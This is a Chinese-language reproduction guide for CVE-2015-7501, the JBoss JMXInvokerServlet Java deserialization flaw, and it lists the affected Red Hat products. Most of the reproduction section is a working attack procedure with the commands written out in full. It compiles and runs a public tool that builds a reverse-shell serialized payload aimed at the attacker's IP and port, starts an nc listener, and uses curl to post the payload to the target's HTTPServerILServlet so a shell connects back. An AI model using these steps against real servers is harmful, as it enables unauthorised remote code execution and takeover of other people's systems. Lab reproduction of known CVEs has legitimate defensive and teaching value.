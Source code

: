 # （CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Jboss/（CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞.html](http://book.iwonder.run/0day/Jboss/（CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞.html)

## 一、漏洞简介

由于 JBoss 中 invoker/JMXInvokerServlet 路径对外开放，JBoss 的 jmx 组件支持 Java 反序列化

## 二、漏洞影响

Red Hat JBoss A-MQ 6.x 版本；BPM Suite (BPMS) 6.x 版本；BRMS 6.x 版本和 5.x 版本；Data Grid (JDG) 6.x 版本；Data Virtualization (JDV) 6.x 版本和 5.x 版本；Enterprise Application Platform 6.x 版本，5.x 版本和 4.3.x 版本；Fuse 6.x 版本；Fuse Service Works (FSW) 6.x 版本；Operations Network (JBoss ON) 3.x 版本；Portal 6.x 版本；SOA Platform (SOA-P) 5.x 版本；Web Server (JWS) 3.x 版本；Red Hat OpenShift/xPAAS 3.x 版本；Red Hat Subscription Asset Manager 1.3 版本。

## 三、复现过程

win7 一台，ip 为 172.26.1.151（靶机，安装了 java 环境）

kali 一台，ip 为 192.168.1.192(攻击机)

输入[http://172.26.1.151:8080/invoker/JMXInvokerServlet](http://172.26.1.151:8080/invoker/JMXInvokerServlet) 返回如图，说明接口开发，存在反序列化漏洞

![image](img/83f5ba5e78440af29d0e94bff3b5b414.png)

进入 kali 攻击机，下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 ,执行命令:

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java 
```

继续执行命令:

```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP 是攻击机 ip,4444 是要监听的端口) 
```

新界面开启 nc 准备接收反弹过来的 shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个 ReverseShellCommonsCollectionsHashMap.ser 文件，然后我们 curl 就能反弹 shell 了，执行命令:

```
curl http://172.26.1.151:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```

![image](img/2e76b04298bf2943e68312d636e4f18c.png)

打开 nc 界面，发现 shell 已经弹回来了

![image](img/34b0dff931d234d8e187eb2d9b111bd4.png)

